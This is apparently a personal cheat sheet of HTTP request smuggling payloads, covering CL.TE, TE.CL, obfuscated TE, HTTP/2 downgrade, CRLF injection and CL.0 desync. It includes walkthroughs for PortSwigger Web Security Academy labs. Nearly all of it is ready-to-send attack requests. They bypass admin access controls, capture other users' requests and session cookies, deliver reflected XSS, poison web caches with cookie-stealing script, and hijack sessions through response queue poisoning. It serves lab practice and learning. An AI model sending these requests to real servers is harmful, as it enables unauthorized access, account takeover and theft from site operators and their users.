


## General info

* Requests must be in HTTP/1 (unless you attacking HTTP/2).
* **CL.TE**: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding 
  header.
* **TE.CL**: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length 
  header.
* **TE.TE**: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers 
  can be induced not to process it by obfuscating the header in some way.
* Uncheck "Update Content-Length" in Repeater
* Make \r\n chars visible.
* For TE.CL include the trailing sequence \r\n\r\n following the final 0.
* Install [Request smuggler](https://github.com/portswigger/http-request-smuggler).
* Schemes are taken from [here](https://medium.com/@muhammadosama0121/http-request-smuggling-f28485cd53dd)

Also this schemes might be useful:




### CL.TE vulnerabilities
#### General template
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13 # that is for frontend (until the end of smuggled)
Transfer-Encoding: chunked # that is for backend (breaks req as thinks it is empty)

0

SMUGGLED
```

#### CL.TE timing technique
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Since the front-end server uses the Content-Length header, it will forward only part of this request, omitting the X.
The back-end server uses the Transfer-Encoding header, processes the first chunk, and then waits for the next chunk 
to arrive.

#### CL.TE template
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
If the attack is successful, then **the last two lines of this request are treated by the back-end server as belonging 
to the next request** that is received:
```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

### TE.CL vulnerabilities
#### General template
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3 # back reads up to the start of the line following 8
Transfer-Encoding: chunked

8
SMUGGLED # first chunk for front
0
```
#### TE.CL timing technique
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
Since the front-end server uses the **Transfer-Encoding** header, it will forward only part of this request, omitting 
the X. The back-end server uses the **Content-Length** header, expects more content in the message body, and waits for 
the remaining content to arrive.

#### TE.CL template
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
If the attack is successful, then everything from GET /404 onwards is treated by the back-end server as belonging to 
the next request that is received. This will cause the subsequent "normal" request to look like this:
```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Since this request now contains an invalid URL, the server will respond with status code 404.

--> Notice that CL is 146 - this might be a mistake in PortSwigger theory.

### TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```
Or use that scheme:


### Bypass front-end security controls
```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
The front-end server sees two requests here, both for /home, and so the requests are forwarded to the back-end 
server. However, the back-end server sees one request for /home and one request for /admin. It assumes (as always) 
that the requests have passed through the front-end controls, and so grants access to the restricted URL.

## LAB Payloads
### HTTP request smuggling, basic CL.TE vulnerability
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
### HTTP request smuggling, basic TE.CL vulnerability
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
### HTTP request smuggling, obfuscating the TE header
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
--> You need to include the trailing sequence \r\n\r\n following the final 0.
Also might be useful this scheme:

### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
add this to your request
```
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
or
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```
### HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

- find that /admin is blocked
- find that access to /admin is available from local host
- you will find the problem with dublicated Host header
- issue following request **twice**
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
- delete carlos
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```
### Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
- the problem is to find correct content length
```
POST / HTTP/1.1
Host: ...web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 2
Transfer-Encoding: chunked

88
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 140

x=
0
```
or
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
then
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
### Exploiting HTTP request smuggling to reveal front-end request rewriting
- check functions of site and look at search
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```
- pay attention to CL value if you make it wrong then will recieve errors 
- find in search results response with rewritten request
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
then
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```
### Exploiting HTTP request smuggling to capture other users' requests
Method:
1. send attack
2. wait
3. check
4. if there is no admin request then repeat from the beginning
```
POST / HTTP/1.1
Host: ...web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 337 <-- choose correct CL

0

POST /post/comment HTTP/1.1
Host: ...web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 950 <-- here is the problem point. Find value needed
Cookie: session=zWM6D4yrmHTSZaj9VJp8H56otXZlBrHE

csrf=ZMDSgQEpVvv6YYsNwa55uDx9cFR9J6Wx&postId=9&name=1&email=1%401.1&website=https%3A%2F%2Fnormal-user.net&comment=
```
or
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400 <-- might be too small
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```
### Exploiting HTTP request smuggling to deliver reflected XSS
- Observe that the comment form contains your User-Agent header in a hidden input
- Escape from html input block
- Notice that no Host header needed is inside smuggled request
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
### Exploiting HTTP request smuggling to perform web cache poisoning
- pay attention at Next post link
- it redirects to another post and reflects Host in location
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: anything
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
- on exploit create text/javascript payload alert(document.cookie) at /post
- poison cache
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
- then fetch tracking.js
```
GET /resources/js/tracking.js HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Connection: close
```
### Exploiting HTTP request smuggling to perform web cache deception
- log in
- find that no anti-caching headers in response
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
X-Ignore: X
```
- repeat this several times 
- then load home page incognito 
- Use the Search function on the Burp menu to see if the phrase "Your API Key" has appeared in any static resources. 
  If it hasn't, repeat the POST requests, force-reload the browser window, and re-run the search

### H2.CL request smuggling
- look at target tab 
- find that for GET /resources there is redirection to https://site/resources/
- alert(document.cookie) - for /resources path of your exploit server
```
POST / HTTP/2
Host: ...web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-...exploit-server.net
Content-Length: 10

x=1
```
### Response queue poisoning via H2.TE request smuggling
- try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows
- every second response should be 404
- 
```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED
```
- create smuggled request to non-existent paths
```
POST /x HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net\r\n\r\n
```
- send and wait. 404 - your own requests, any other code - victims, but you need 302, so repeat until you get 302
```
GET /admin HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=STOLEN-SESSION-COOKIE
```
- send until you get admin panel
- delete carlos
- alternative way - you can use intruder
```
POST /x HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked§§

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net\r\n\r\n
```
### HTTP/2 request smuggling via CRLF injection
- To inject newlines into HTTP/2 headers, use the Inspector to drill down into the header, then press the Shift + 
  Return keys. Note that this feature is not available when you double-click on the header.
- Take recent POST and remove your session cookie before resending the request. Notice that your search history is 
  reset, confirming that it's tied to your session cookie
- Using the Inspector, add an arbitrary header to the request. Append the sequence \r\n to the header's value, 
  followed by the Transfer-Encoding: chunked header:
```
Name
foo
Value
bar\r\n
Transfer-Encoding: chunked
```
- In the body, attempt to smuggle an arbitrary prefix as follows: 
```
0

SMUGGLED
```
- every second request you send should receive a 404 response
- final body
```
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800

search=x
```
- send, immediately refresh page in the browser:
  - 404 - move to the next step
  - search results page - find that the start of your request is appended to the search=x parameter in the smuggled 
    prefix. Send the request again - wait for 15 seconds - refresh the page. If you get 404 - refresh the page again
- Check the recent searches list. See GET request? - find victims session cookie. See your own POST? Repeat attack
### HTTP/2 request splitting via CRLF injection
- GET /x to Burp Repeater. Poison the queue with 404. If you get other codes - that is the victim
```
Name
foo
Value
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
```
- When the front-end server appends \r\n\r\n to the end of the headers during downgrading, this effectively converts 
  the smuggled prefix into a complete request, poisoning the response queue
- wait for 5 secs then repeat. 404 - is yours, 302 - admin's
- if you stuck in receiving 200s - send 10+ ordinary requests to restore the [queue](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning)
```
GET /admin HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=STOLEN-SESSION-COOKIE
```
- get url to delete carlos
### CL.0 request smuggling
- This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out 
  [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling](https://portswigger.net/research/browser-powered-desync-attacks#cl.0).
- home page is not vulnerable
- look to target and test static resources
```
POST /resources/images/blog.svg HTTP/1.1
Host: ...web-security-academy.net
Content-Length: 3

xyzGET /admin HTTP/1.1
Host: ...web-security-academy.net
```
- in response you should recieve
```
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=10
Content-Length: 46

"Backend only accepts methods GET, POST, HEAD"HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 24

"Path /admin is blocked"
```
- try and get dublicate headers
```
POST /resources/images/blog.svg HTTP/1.1
Host: ...web-security-academy.net
Content-Length: 84

GET /admin HTTP/1.1
Host: ...web-security-academy.net
```
- correct attack
```
POST /resources/images/blog.svg HTTP/1.1
Host: ...web-security-academy.net
Content-Length: 23

GET /admin HTTP/1.1
x:

```
- delete
```
POST /resources/images/blog.svg HTTP/1.1
Host: ...web-security-academy.net
Content-Length: 46

GET /admin/delete?username=carlos HTTP/1.1
x:
```
or
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /hopefully404 HTTP/1.1
Foo: x
```
- Change the path of the main POST request to point to an arbitrary endpoint that you want to test. 
- Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection). 
- Change the Connection header of the first request to keep-alive. 
- Send the sequence and check the responses. 
  - If the server responds to the second request as normal, this endpoint is not vulnerable. 
  - If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 
    response), this indicates that the back-end server is ignoring the Content-Length of requests. 
- Deduce that you can use requests for static files under /resources, such as /resources/images/blog.svg, to cause a 
  CL.0 desync.  
- exploit
```
POST /resources/images/blog.svg HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Length: CORRECT

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```